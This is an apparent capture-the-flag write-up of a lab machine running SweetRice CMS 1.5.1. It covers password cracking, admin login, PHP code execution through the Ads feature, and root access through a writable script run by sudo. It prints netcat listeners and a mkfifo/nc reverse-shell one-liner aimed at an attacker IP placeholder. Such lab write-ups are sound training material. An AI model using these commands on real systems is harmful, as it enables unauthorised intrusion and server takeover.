Session completed.
```

***Result:*** The tool successfully cracked the hash in less than a second, revealing a weak and common password:

Username: manager<br>
Password: Password123

#### 🚀 Administrative Access

With the recovered credentials (manager / Password123), I successfully logged into the SweetRice dashboard.



#### ⚠️ The dashboard explicitly displays the software version in the top-left corner: Current version: 1.5.1.


🔍 Vulnerability Research: I will search for known vulnerabilities.

<br>

***Analysis:***

**Backup Disclosure:** This explains why I was able to access the /inc/mysql_backup directory earlier.<br>
**Arbitrary File Upload / PHP Code Execution:** These are the most critical findings. Since I already have administrative credentials, I can leverage these vulnerabilities to upload a PHP reverse shell and gain Remote Code Execution (RCE).

> #### From this point, while it is possible to follow the path of public exploits to gain a reverse shell and subsequent privilege escalation, I have decided to set them aside for now. Instead, I will manually explore the application to identify these and other potential vulnerabilities through a hands-on approach.

### 🛠️ Strategic Choice: Manual Exploitation

<details>
<summary>Click here to view the source code</summary>

```bash

<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<meta content="width=device-width, initial-scale=1, minimum-scale=1, maximum-scale=1, user-scalable=0" name="viewport" id="viewport"/>
<title>Welcome to SweetRice! - Dashboard</title>
<link rel="stylesheet" type="text/css" href="site.css">
<script type="text/javascript" src="../js/SweetRice.js"></script>
<script type="text/javascript" src="js/function.js"></script>
<script type="text/javascript" src="js/dashboard.js"></script>
</head>
<body id="body">
<div id="div_top">
<div id="top_image"><a href="http://10.64.145.152/content/" target="_blank"></a></div>
<div id="top_word">
<h1>Welcome to SweetRice!</h1>
</div>
<div id="top_line" data="">......</div>
</div>
<div id="toggle_nav"></div><div id="div_center">
<div id="admin_left"><div id="dashboard_nav">
<ul>
  <li  class="currency_nav"><a href="./">Dashboard</a><br />Current version : 1.5.1</li>
<li >
<div>Category<div class="hidden_ pl10">
<a href="./?type=category">List</a> 
<a href="./?type=category&mode=insert">Create</a> 
</div></div>
</li>
<li >
<div>Post<div class="hidden_ pl10">
<a href="./?type=post">List</a> 
<a href="./?type=post&mode=insert">Create</a> 
</div></div>
</li>
<li ><a href="./?type=comment">Comment</a></li>
<li ><a href="./?type=attachment">Attachment</a></li>
<li >
<div>Setting<div class="hidden_ pl10">
<p><a href="./?type=setting">General</a></p>
<p><a href="./?type=htaccess">.htaccess</a></p>
<p><a href="./?type=url_redirect">URL Redirect</a></p>
</div></div>
</li>
<li >
<div>Permalinks<div class="hidden_ pl10">
<a href="./?type=permalinks&mode=system">System</a> 
<a href="./?type=permalinks&mode=custom">Custom</a> 
</div></div>
</li>
<li >
<div>
<a href="./?type=plugins">Plugin list</a>
<div class="hidden_ pl10">
</div>
</div>
</li>
<li ><a href="./?type=ad">Ads</a></li>
<li ><a href="./?type=track">Track</a></li>
<li ><a href="./?type=link">Links</a></li>
<li ><a href="./?type=sitemap">Sitemap</a></li>
<li ><a href="./?type=theme">Theme</a></li>
<li ><a href="./?type=media_center">Media Center</a></li>
<li >
<div>Cache<div class="hidden_ pl10">
<a href="./?type=cache" class="ncr ">Expired</a> 
<a href="./?type=cache&mode=full" class="ncr ">Full</a> 
</div></div>
</li>
<li >
<div>Update<div class="hidden_ pl10">
<a href="./?type=update">Check</a> 
</div></div>
</li>
<li >
<div>Sites<div class="hidden_ pl10">
<a href="./?type=sites">List</a> 
<a href="./?type=sites&mode=insert">Create</a> 
</div></div>
</li>
<li >
<div>Data<div class="hidden_ pl10">
<p><a href="./?type=data&mode=db_backup">Data Backup</a> 
</p><p><a href="./?type=data&mode=db_import">Data Import</a> 
</p><p><a href="./?type=data&mode=db_converter">Data Converter</a> 
</p><p><a href="./?type=data&mode=db_optimizer">Data Optimizer</a> 
</p><p><a href="./?type=data&mode=sql_execute">Sql Execute</a> 
</p><p><a href="./?type=data&mode=transfer">Transfer website</a> 
</p></div></div>
</li>
<li ><a href="./?type=signout">Logout</a></li>
<li><a href="../">Home</a></li>
<li>Server Time : Jan 05 2026 04:14 
Time zone:America/Los_Angeles</li>
</ul>
</div>
</div>
<div id="admin_right">
<div id="sweetrice_status">
<fieldset><legend><span>Lazy Admin&#039;s Website</span> System Information</legend>
<div class="form_split"></div>
<div class="form_split">
Database <span>mysql</span> <span>Connected</span> <span></span></div>
</fieldset>
<fieldset><legend>Website status : Close</legend>
<div class="setting_toggle" data="close">
	<label data="0" >Running</label>
<label data="1" class="setting_open" >Close</label>
</div> 
</fieldset>
<fieldset><legend>URL rewrite</legend>
<div class="setting_toggle" data="url_rewrite">
	<label data="1" >Enable</label>
<label data="0" class="setting_open" >Disable</label>
</div>
</fieldset>
<fieldset><legend>Theme</legend>
<div class="setting_toggle" data="theme">
	<label value="" class="setting_open">Default</label>
<label data="default"  >default</label>
</div>
</fieldset>
<fieldset><legend>Language</legend>
<div class="setting_toggle" data="front_lang">
	<label data="" class="setting_open">Auto detect</label>
<label data="zh-cn.php"  >中文(简体)</label>
<label data="big5.php"  >中文(繁体)</label>
<label data="en-us.php"  >English</label>
</div>
</fieldset>
<fieldset><legend>Dashboard Language</legend>
<div class="setting_toggle" data="dashboard_lang">
<label data="zh-cn.php"  >中文(简体)</label>
<label data="big5.php"  >中文(繁体)</label>
<label data="en-us.php" class="setting_open" >English</label>
</div>
</fieldset>
<fieldset><legend>Category</legend>
<a href="./?type=category">0</a>
</fieldset>
<fieldset><legend>Post</legend>
<a href="./?type=post">0</a> (Publish : 0)
</fieldset>
<fieldset><legend>Comment</legend>
<a href="./?type=comment">0</a>
</fieldset>
<fieldset><legend>Sitemap</legend>
<a href="http://10.64.145.152/content/?action=sitemap" target="_blank">html</a> | <a href="http://10.64.145.152/content/?action=sitemap&type=xml" target="_blank">xml</a>
</fieldset>
<fieldset><legend>RSSFeed</legend>
<a href="http://10.64.145.152/content/?action=rssfeed" target="_blank"></a>
</fieldset>
</div>
<div class="ball"></div>
<script type="text/javascript">
<!--
	var timer = null;
	_.ready(function(){
		_('.setting_toggle label').click(function(){
			_.ajax({
				'type':'post',
				'data':{'data':_(this).attr('data')},
				'url':'./?type=setting&mode=update&submode='+_(this).parent().attr('data'),
				'success':function(result){
					if (result['status'] == 1)
					{
						window.location.reload();
					}
				}
			});
		});
		function splash(){
			var color = _.randomColor();
			var bgcolor = _.fromColor(color);
			_('#admin_right').css({'color':color,'background-color':bgcolor}).addClass('splash');
			_('.splash .ball').css({'background-color':color});
			window.clearTimeout(timer);
			timer = setTimeout(splash,8000);
		}
		_('#admin_right').bind('mousemove',function(){
			_('#admin_right').css({'color':'#222','background-color':'#f0f0f0'}).removeClass('splash');
			window.clearTimeout(timer);
			timer = setTimeout(splash,15000);
		});
	});
//-->
</script></div>
<div class="div_clear"></div>
</div>
<div id="div_foot">Powered by <a href="http://www.basic-cms.org">SweetRice</a> &copy; 2026 <div class="btn_bgcolor"></div></div>
<script type="text/javascript">
<!--
	_.ready(function(){
		_('.btn_bgcolor').css({'background-color':_.fromColor(_.getCookie('dashboad_bg') || '#555',true)}).click(function(){
			var color = _.randomColor( 0x88 );
			_.setCookie({'name':'dashboad_bg','value':color});
			_(document.body).animate({'background-color':color},200);
			_('.btn_bgcolor').animate({'background-color':_.fromColor(color,true)},200);
		});
	});
//-->
</script>
</body>
</html>
```
</details><br>

#### 🕵️ Analyzing the Target: What does the code reveal?
Inspecting SweetRice's internal code is like finding an open vault. Its security relies entirely on the false sense of privacy provided by the /as/ folder.<br>
***Blind Trust:*** The system lacks CSRF tokens, meaning it blindly trusts any command coming from the admin's browser. As long as the admin is logged in, the system is a sitting duck for forced commands.<br>
***Dangerous Built-in Tools:*** The developer included SQL Execution and .htaccess editing features directly in the dashboard. They provided the full exploitation kit; we don't even need to bring our own tools.<br>
***Structural Negligence:*** Typos in the code (dashboad, bakup) and the explicitly exposed version 1.5.1 show that security was never a priority. It is a system that is "fragile from within."<br>
***The Obvious Path:*** The sidebar is more than just navigation; it is an exploration map. The Ads tab is the most glaring target: it is designed to accept scripts, and wherever a system accepts scripts, we inject our Reverse Shell.<br>

***🚩 Conclusion:*** 
The application relies on the assumption that the /as/ (Administrative Suite) directory is inaccessible to outsiders. However, once authentication is bypassed (as we did with the SQL backup disclosure), the system offers no internal "defense-in-depth," providing an attacker with multiple built-in tools for full server compromise.

### 🛠️ Step-by-Step: Turning Black-Box into White-Box

#### 💣💥 I noticed that the application offers the option to download a complete backup of the system for migration to another endpoint. If I can successfully transfer this download to my attacking host, I will have the entire server-side logic in my hands.



#### ⬇️ Next, I clicked the 'Pack Website' button and selected the 'Manual' option. The process completed successfully, and the full system download was initiated.

```bash
└─$ ls
SweetRice-transfer.zip

└─$ unzip SweetRice-transfer.zip -d source-audit

└─$ ls
as  attachment  changelog.txt  images  inc  index.php  js  license.txt  _plugin  _themes  upgrade_db.php
```
## RCE via Arbitrary File Upload in Ads Functionality


**Description:** The SweetRice CMS administrative panel features an "Ads" management section that allows administrators to create and edit advertisement scripts. However, the application fails to sanitize the input or restrict file extensions, saving any content provided in the "Ads Code" field as a .php file on the local server.


#### Starting the creation of a test ad:



#### The test response hints that the file is being saved in `ads`, but we already know that this directory is located in `/content/inc`:



#### Accessing the file in the `/content/inc/ads` directory, we can see, as expected, that the file was saved with the addition of the `.php` extension. GameOver:
```html
Index of /content/inc/ads
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[   ]	teste.php	2026-01-06 16:00	5	 
Apache/2.4.18 (Ubuntu) Server at 10.66.164.171 Port 80
```

#### Attacking:

<br>

#### Firing the payload:

```bash
Index of /content/inc/ads
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[   ]	shell.php	2026-01-06 16:26	75	 
```

#### Receiving the reverse shell on the listening:

```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [] from (UNKNOWN) [10.66.164.171] 54578
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/var/www/html/content/inc/ads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@THM-Chal:/var/www/html/content/inc/ads$ cd /home
www-data@THM-Chal:/home$ wc /itguy/user.txt
 1  1 38 user.txt
```

## Privilege escalation

#### Preparing the netcat listener.

```bash
└─$ nc -vnlp 9999
listening on [any] 9999 ...
```
#### Exploring the Sudo Permissive Configuration

```bash
#Checking sudo privileges:
bash-4.3$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

#The user www-data can execute the file with root privileges without a password.

#Checking the contents of the executable:
bash-4.3$ cat /home/itguy/backup.pl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");

#The executable will trigger a system using Perl from the contents of /etc/copy.sh.

#Reading the original contents of the file:
bash-4.3$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

#Modifying the file to redirect the reverse shell to my host:
bash-4.3$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> 9999 >/tmp/f" > /etc/copy.sh                              

#Running the file with root privileges.

bash-4.3$ sudo /usr/bin/perl /home/itguy/backup.pl
```
#### Receiving the reverse shell and obtaining the flag.

```bash
root@THM-Chal:/home/itguy# id
id
uid=0(root) gid=0(root) groups=0(root)
root@THM-Chal:/home/itguy# cd /root
cd /root
root@THM-Chal:~# ls
ls
root.txt
root@THM-Chal:~# wc root.txt
wc root.txt
 1  1 38 root.txt
root@THM-Chal:~# 
```

> ### Pwned by Hirt, Nelson